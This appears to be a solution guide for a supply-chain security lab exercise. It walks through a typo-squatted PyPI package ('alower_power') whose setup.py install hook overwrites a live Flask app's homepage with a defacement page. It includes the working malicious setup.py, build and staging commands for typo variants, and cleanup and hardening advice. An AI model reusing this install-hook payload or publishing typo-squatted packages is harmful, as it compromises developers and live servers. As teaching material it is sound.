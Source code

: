 ### Solution Guide — ex3: Typo-squatting to modify a live server file

#### Overview
The developer works directly in a production-like environment. When they mistype `flower_power` (f → a/b/c/d/e), they may install a typo-squatted package from the local PyPI. Our malicious package (`alower_power`) runs code during installation that overwrites the running app’s homepage template, clearly demonstrating impact.

#### What the attack does
- Package name: `alower_power` (typo of `flower_power`).
- On install, a custom `install` hook writes to `/app/templates/index.html`, first saving a backup at `/app/templates/index.html.bak`.
- Because the web container serves files from `/app`, the change appears immediately in the UI.

The core of the malicious logic lives in `solution/malicious-packages/alower_power/setup.py`:

```1:60:w2d3/exercises/ex3/solution/malicious-packages/alower_power/setup.py
from setuptools import setup
from setuptools.command.install import install
import os

class MaliciousInstall(install):
    def run(self):
        try:
            target_file = "/app/templates/index.html"
            backup_file = target_file + ".bak"
            HACKED_HTML = """<!DOCTYPE html>... (defaced page HTML) ..."""
            if os.path.exists(target_file) and not os.path.exists(backup_file):
                with open(target_file, "rb") as fsrc:
                    data = fsrc.read()
                with open(backup_file, "wb") as fdst:
                    fdst.write(data)
            os.makedirs(os.path.dirname(target_file), exist_ok=True)
            with open(target_file, "w", encoding="utf-8") as f:
                f.write(HACKED_HTML)
        except Exception:
            pass
        super().run()
```

#### Build the malicious package

```sh
cd w2d3/exercises/ex3/solution/malicious-packages/alower_power
python3 setup.py sdist
```

This creates `dist/alower_power-<version>.tar.gz`.

Optionally, duplicate this directory and rename for other nearby typos (`blower_power`, `clower_power`, `dlower_power`, `elower_power`) and rebuild each.

#### Stage it on the local PyPI
The exercise’s PyPI server serves whatever is in `exercise/packages/`.

```sh
cd w2d3/exercises/ex3
mkdir -p exercise/packages
cp solution/malicious-packages/alower_power/dist/*.tar.gz exercise/packages/
```

Note: Using `twine` is unnecessary; simply copying tarballs into `exercise/packages/` is enough because the container mounts that directory.

#### Run the environment

```sh
cd exercise
docker-compose up --build
```

Containers:
- `web`: Flask app (mounts `src/` to `/app`).
- `pypi-server`: serves `./packages` on `http://pypi-server:8080/simple`.
- `developer-simulator`: runs repeated installs with the f→a/b/c/d/e typo pattern.

#### What you should see
- Developer logs showing random c
ommands like `pip install alower_power ...`.
- When the typo hits `a`, install succeeds and the home page is defaced.
- Visit `http://localhost:5000`. The page shows the hacked banner.
- `GET /status` (or the “Refresh Status” button) lists any installed typo packages under “Typo-Squatting Packages Detected”.

#### Restore / cleanup
```sh
cp exercise/src/templates/index.html.bak exercise/src/templates/index.html
rm exercise/packages/alower_power-*.tar.gz
docker-compose down -v
```

#### Why this works
- The developer works “in production”: installing packages affects the live filesystem mounted by the web server.
- A typo-squatted package name avoids strict version pinning on `flower_power`.
- The `install` hook is a powerful execution point that runs with the privileges of the installer.

#### Hardening ideas
- Enforce allow-lists for package names and repositories.
- Use lockfiles/constraints and CI-only builds (no dev in prod).
- Disable arbitrary build/install scripts (PEP 517 isolated builds, `--only-binary=:all:` when possible).
- Use content trust/signing and SLSA provenance.


